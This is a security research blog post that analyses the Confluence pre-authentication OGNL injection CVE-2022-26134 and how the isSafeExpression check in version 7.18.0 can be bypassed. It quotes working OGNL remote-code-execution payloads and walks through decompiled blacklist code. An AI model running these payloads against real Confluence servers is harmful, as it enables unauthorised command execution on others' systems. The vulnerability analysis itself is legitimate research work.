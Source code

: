 ```yaml
---
layout: post
title:  "Confluence Preauth RCE 0day: A look into bypass isSafeExpression check ( CVE-2022-26134 ) "
date:   2022-06-06 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, cve-2022-26134
description: Research analysis and develop a working exploit poc script 
---
```


## Introduction & Environment setup

CVE-2022-26134 is an Preauth RCE ( OGNL injection vulnerability ) in Confluence Server. As there are a lot of technical analysis and payload about the vulnerability already, while the payload works on most of confluence server versions, but it won't work in Confluence server version 7.18.0 because the dev team has added some additional check for safe expression. So in this post, I will focus on the bypass `isSafeExpression` of Confluence version 7.18.0.

For environment setup, I download Confluence server version 7.18.0 on: [https://www.atlassian.com/software/confluence/download-archives](https://www.atlassian.com/software/confluence/download-archives)

For Postgres database, I use docker to quickly spin up the postgresdb:
```text
version: '3.4'
services:
        db:
                image: postgres:latest
                environment:
                        - POSTGRES_PASSWORD=postgres
                        - POSTGRES_DB=confluence
                        - POSTGRES_USER=postgres
                ports:
                        - 5432:5432
```

## Technical Analysis

Rapid7 Team did a great job on publishing the [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) and the exploit payload, here's the payload that I copied from their blog

```java
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

But when I try that payload on Confluence version 7.18.0, it didn't work. So I add remote debugger to add breakpoints to see what is the difference between their version and mine.


Based on security advisories from Confluence, I download the `xwork-1.0.3-atlassian-10.jar` from their website and start to diffing patches, it's easy to identify  `ActionChainResult.class`  is where our vulnerability lies at.

![image](https://user-images.githubusercontent.com/37280106/172528678-4bed14c4-bc8d-4809-99ae-1c49d86fa9c2.png)

How an attacker provided URI can cause the vulnerability is well-explained and mentioned in this [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) ( you can go to their blog if you curious about the call stack to reach to our vulnerable code ), I just want to quickly note that because of this piece of code:

```java
public static String getNamespaceFromServletPath(String servletPath) {
    servletPath = servletPath.substring(0, servletPath.lastIndexOf("/"));
    return servletPath;
}
```

Every payload that you send must end with `/` , otherwise it won't reach the vulnerable code path. I learned that from my own experience after trying to figure it out why the breakpoint won't hit when I send the payload 

Our call stack to vulnerable code so far:
```
TextParseUtil.translateVariables(this.namespace, stack);
        OgnlValueStack.findValue
```

Content of `OgnlValueStack.findValue`
![image](https://user-images.githubusercontent.com/37280106/172530117-33346b6c-7804-483a-ae1f-1dfdcc2eaee6.png)

Here we see that there is an additional check `this.safeExpressionUtil.isSafeExpression(expr)` ,  which will eventually leads to `SafeExpressionUtil.isSafeExpressionInternal`

Content of `SafeExpressionUtil.isSafeExpressionInternal` , let's put a breakpoint at this function and send our payload to see what will happen
![image](https://user-images.githubusercontent.com/37280106/172530562-d25f5861-49b6-4de8-b4e7-35719025496f.png)

Here I use the simple payload to hit the breakpoint in our code: 
```
%24%7b%22%22%20%2b%20Class.forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22%2c%20null).invoke(null%2cnull).exec(%22gnome-calculator%22)%7d%7d/
```
![image](https://user-images.githubusercontent.com/37280106/172531464-cc30aea6-b81a-45c1-af0c-113494a2348e.png)

Here we will go through the first check, `isUnsafeClass(expr)` 

```java
    private boolean isUnSafeClass(String expression) {
        String trimmedClassName = this.trimQuotes(expression);
        if (this.unsafePropertyNames.contains(trimmedClassName)) {
            return true;
        } else if (SourceVersion.isName(trimmedClassName)) {
            List<String> parentPackageNames = this.populateParentPackages(trimmedClassName, new ArrayList());
            Stream var10000 = parentPackageNames.stream();
            Set var10001 = this.unsafePackageNames;
            var10001.getClass();
            return var10000.anyMatch(var10001::contains);
        } else {
            return false;
        }
    }
```
Where `this.unsafePropertyNames` is a `HashSet` includes:
![image](https://user-images.githubusercontent.com/37280106/172532694-065d5872-2a97-46fc-b260-ef3be1f2bb19.png)

Here we have a blacklist of forbidden property names, luckily our `trimmedClassName` variable is a long expression string **still** and not contains in the hashset so we can pass this check.
